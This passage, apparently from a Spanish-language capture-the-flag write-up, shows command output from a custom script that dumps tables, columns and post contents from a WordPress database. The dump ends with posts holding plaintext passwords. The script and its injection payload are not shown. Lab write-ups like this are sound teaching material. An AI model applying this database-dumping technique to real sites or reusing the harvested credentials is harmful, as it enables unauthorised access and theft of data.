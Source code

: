 Después de un rato jugando con las bases de datos y sus tablas, encontramos esto en la tabla `wp_posts` (donde están los posts del sitio):

```bash
❭ python3 ex_all.py wordpress
[+] Extrayendo tablas de la base de datos wordpress: d0Ne
[+] Payload: d0Ne

...
[+] Tabla [5]: wp_posts
...
```

```bash
❭ python3 ex_all.py wordpress wp_posts
[+] Extrayendo columnas de la tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] Columna [4]: post_content
[+] Columna [5]: post_title
...
```

```bash
❭ python3 ex_all.py wordpress wp_posts post_status
[+] Info columna post_title - tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] [34]: Stardate 55132.2
[+] [35]: Passwords 
[+] [36]: Passwords
[+] [37]: Passwords
[+] [38]: YAYAYAYAY.
...
```

Vemos 2 posts conocidos, pero 3 con un nombre bastante llamativo y que no vimos en nuestro reconocimiento web... Enfoquémonos en las filas 35, 36 y 37. Echemos un ojo a su contenido:

```bash
❭ python3 ex_all.py wordpress wp_posts post_content
[+] Info columna post_content - tabla wp_posts: d0Ne
[+] Payload: d0Ne

...
[+] [35]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 ZD3YxfnSjezg67JZ u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
[+] [36]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
[+] [37]: Needed somewhere to put some passwords quickly ZxJyhGem4k338S2Y enterprisencc170 ZD3YxfnSjezg67JZ u*Z14ru0p#ttj83zS6 &amp;nbsp; &amp;nbsp;
...
```
